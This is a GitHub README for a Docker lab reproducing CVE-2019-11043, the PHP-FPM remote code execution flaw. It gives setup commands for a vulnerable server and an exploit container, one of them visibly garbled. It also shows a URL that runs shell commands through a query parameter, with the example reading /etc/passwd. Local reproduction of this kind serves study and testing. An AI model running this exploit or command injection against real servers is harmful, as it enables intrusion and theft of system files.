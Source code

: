 # CVE-2019-11043

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-11043>


## PoC / Exploit
* <https://github.com/ypereirareis/docker-CVE-2019-11043>
 

## Environment used

* Ubuntu 20.04 LTS

## Requirements
* Web browser 

## Reproduction
* Server
    - Docker version
        ```shell script
        docker build -t cve-2019-11043 . 
        docker run -p 8080:80 -it cve-2019-11043
        ```
    - Script version
        ```shell script
        sudo bash installation.sh
        (sudo nginx &) && (sudo /usr/local/sbin/php-fpm &) && sudo tail -f /var/log/nginx/*.log
        ```  

* Client
    ```shell script
    docker build -t exploit exploit
    docker run -it -docker run -it cve "http://SERVER_IP:PORT/script.php"
    ```
  
Open a browser and go to <http://127.0.0.1:8080/script.php?a=><b>CMD</b> where 
CMD is terminal command. <br>
&emsp;&emsp; E.g.: <http://127.0.0.1:8080/script.php?a=cat%20/etc/passwd>

<p align="center">
  <img src="https://raw.githubusercontent.com/ypereirareis/docker-CVE-2019-11043/master/img/exploit.jpg">
</p>    

Note: It is recommended to refresh the page if the command's output is not showing. 

## References
* <https://github.com/neex/phuip-fpizdam>
